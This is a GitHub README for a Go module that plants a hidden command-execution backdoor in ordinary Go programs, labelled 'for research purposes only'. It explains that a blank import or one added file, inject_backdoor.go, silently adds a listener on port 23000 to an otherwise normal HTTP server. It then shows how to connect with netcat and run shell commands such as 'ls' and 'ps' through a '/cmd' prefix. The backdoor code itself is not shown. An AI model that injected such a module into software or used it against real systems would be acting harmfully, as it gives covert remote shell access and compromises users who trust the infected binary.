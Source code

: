 # backdoorGolang

[![Windows Build Status](https://ci.appveyor.com/api/projects/status/github/pilebones/backdoorGolang?svg=true&branch=master&passingText=Windows%20-%20OK&failingText=Windows%20-%20failed&pendingText=Windows%20-%20pending)](https://ci.appveyor.com/project/pilebones/backdoorGolang)
  
Backdoor with Golang (Cross-Platform)

`/!\` Work in progress, not a stable release `/!\`

## Main goal

This code is for research purposes only.

Forked from pilebones/backdoorGolang.
Changed from CLI interface to a golang module.
User should just import the module:

`import _ "github.com/guimagalhaes/backdoorGolang/core/socket/server"`

"A fork of my own project named : "pilebones/backdoorBash" (see: https://github.com/pilebones/backdoorBash) but instead of using Bash as programming language (Unix-like only) this new one will work on Windows too by using a Golang API (cross-plateform) developed from scratch (as much as possible)."

## Requirements

- Golang SDK : Compiler and tools for the Go programming language from Google (see: https://golang.org/doc/install)

From Arch Linux :

```bash
(sudo) pacman -S community/go
```

From Debian :

```bash
(sudo) apt-get install golang-go
```

From SUSE :

```bash
(sudo) zypper install go1.16
```

From CentOS 7/8 and RedHat 7/8:

```
See Golang SDK link above.
```

## Installation

```bash
go get github.com/guimagalhaes/backdoorGolang@v0.2.2
```

## Clone the project
To do the following experiments, clone the project:

```
mkdir $GOPATH/src/github.com/guimagalhaes/
cd $GOPATH/src/github.com/guimagalhaes/
git clone github.com/guimagalhaes/backdoorGolang
```

## Run test example
Go to `$GOPATH/src/github.com/guimagalhaes/backdoorGolang/tests/simple_example` folder, remove the inject_backdoor.go source file and build it:

```
rm inject_backdoor.go
go build
```

Execute the binary './simple_example' and see that only a simple HTTP server is available:

`curl http://localhost:2020/hello`

Restore the inject_backdoor.go file and build it again:

```
git checkout inject_backdoor.go
go build
```

Execute the new binary ./simple_example and see that besides the simple HTTP server, the backdoor is now injected to the binary.
Note the inject_backdoor.go file is the only file that must be injected to a Golang source code to inject the backdoor to the software.

Follow the next session to see how to test the infected version of the binary.

## Client

It is used the 'localhost:23000' address hardcoded for now. The plan is to have network interface detection and auto selection of available network port range.
Use netcat:

```bash
netcat localhost 23000
```

Then execute a sequence of shell commands using '/cmd ' as prefix:

```
/cmd ls -l
/cmd ss -natp
/cmd ps aux
...
```

To exit the netcat session:

```
/quit
<enter>
<enter>
```
